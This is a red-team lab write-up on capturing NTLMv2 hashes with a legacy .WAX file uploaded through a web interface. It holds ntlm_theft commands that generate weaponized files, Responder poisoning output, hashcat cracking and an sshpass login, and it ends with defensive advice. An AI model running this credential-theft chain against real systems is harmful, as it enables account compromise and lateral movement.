```yaml
---
title: "NTLM Hash Capture via Legacy WAX File Bypass"
date: 2025-09-26 18:30:00 +0200
categories: [Red-teaming]
tags: [Red Teaming, NTLMv2, Responder, Hashcat, WAX, Credential Theft, Lateral Movement]
toc: true
pin: false
---
```


# NTLM Hash Capture via Legacy WAX File - Lab Demonstration

This lab scenario explores the capture of NTLMv2 hashes using a legacy `WAX file` combined with `Responder` for hash poisoning. The technique demonstrates a POC (proof of concept) 
approach that, while effective in controlled environments, may have varying real world applicability depending on target configurations and security controls. There was a option
to upload a `Windows Media Player` file through the Web GUI. This method could potentially be useful in red teaming engagements where legacy systems are present. 

## Attack Flow

### 1. Weaponized File Creation
The `ntlm_theft.py` tool generates multiple attack vectors including the `redteam.wax` file:

```bash
python3 ntlm_theft.py -g all -s 10.10.10.10 -f redteam
/home/kali/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: redteam/redteam.scf (BROWSE TO FOLDER)
Created: redteam/redteam-(url).url (BROWSE TO FOLDER)
Created: redteam/redteam-(icon).url (BROWSE TO FOLDER)
Created: redteam/redteam.lnk (BROWSE TO FOLDER)
Created: redteam/redteam.rtf (OPEN)
Created: redteam/redteam-(stylesheet).xml (OPEN)
Created: redteam/redteam-(fulldocx).xml (OPEN)
Created: redteam/redteam.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(includepicture).docx (OPEN)
Created: redteam/redteam-(remotetemplate).docx (OPEN)
Created: redteam/redteam-(frameset).docx (OPEN)
Created: redteam/redteam-(externalcell).xlsx (OPEN)
Created: redteam/redteam.wax (OPEN)
Created: redteam/redteam.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: redteam/redteam.asx (OPEN)
Created: redteam/redteam.jnlp (OPEN)
Created: redteam/redteam.application (DOWNLOAD AND OPEN)
Created: redteam/redteam.pdf (OPEN AND ALLOW)
Created: redteam/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: redteam/redteam.library-ms (BROWSE TO FOLDER)
Created: redteam/Autorun.inf (BROWSE TO FOLDER)
Created: redteam/desktop.ini (BROWSE TO FOLDER)
Created: redteam/redteam.theme (THEME TO INSTALL
Generation Complete.
```

### 2. NTLM Hijacking via .WAX

The [Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft){:target="_blank"} repository was used as a reference for generating test files in a controlled lab environment.  

### 3. Responder setup

```bash

Responder is initiated on the tun0 interface to capture authentication attempts:

responder -I tun0  
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [OFF]
    IMAP server                [OFF]
    POP3 server                [OFF]
    SMTP server                [OFF]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [OFF]
    RDP server                 [OFF]
    DCE-RPC server             [OFF]
    WinRM server               [OFF]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.10.10]
    Responder IPv6             [dead:beef:2::10cd]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-VVA6SP3PVXI]
    Responder Domain Name      [OUZ4.LOCAL]
    Responder DCE-RPC Port     [48236]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.1.1.1
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : SNIP
[*] Skipping previously captured hash for MEDIA\enox
[*] Skipping previously captured hash for MEDIA\enox
[+] Exiting...

```

### 4. Hash capture

The `redteam.wax` file was uploaded via the web GUI and, when processed/previewed by the target, the authentication listener recorded an NTLMv2 authentication exchange.

```bash

Target interaction with the WAX file results in NTLMv2 hash capture:

SMB] NTLMv2-SSP Client   : 10.10.10.1
<SNIPPED GOT THE HASH>

Then saved the captured hash as enox.hash and cracked it by using hashcat.

hashcat enox.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 


```

### 5.  Logged in using sshpass
```bash
sshpass -p 'THECRACKEDPASSWORD' ssh enox@10.10.10.10

```


### 6. Conclusion

This lab showed that a legacy file format such as .WAX can be turned into a practical test of modern defenses. In a controlled environment the WAX file repeatedly caused an endpoint to
initiate an outbound NTLMv2 authentication exchange that revealed authentication metadata. That behavior highlights how older handlers and automatic retrieval mechanisms remain an underrated attack surface.

For red teams this provides a quiet but effective tool for social engineering and client side testing. A small user action, such as previewing or opening a media file,
can trigger protocol level behavior with real consequences. Use of this approach must be strictly authorised, carefully scoped, and fully documented to avoid real world harm.

For defenders the message is simple. Limit legacy protocol egress, harden client policies to reduce automatic retrieval of remote content, and
tune detection to link file open or preview events with outbound NTLM activity. Those steps will greatly reduce the odds that a routine media file becomes a pathway for credential exposure.

Ultimately legacy formats still matter. They can produce high impact, low visibility checks of network segmentation, endpoint configuration,
and detection maturity when used responsibly and with appropriate safeguards.

> **Disclaimer:** This article is for educational purposes only and details a Proof of Concept (POC) technique. This information should only be used in authorized penetration testing, bug bounty programs, or approved red teaming engagements. The author and publisher are not responsible for any misuse of this information.
{: .prompt-info }

> This technique can be applied in penetration testing or `red teaming` engagements.
{: .prompt-danger }
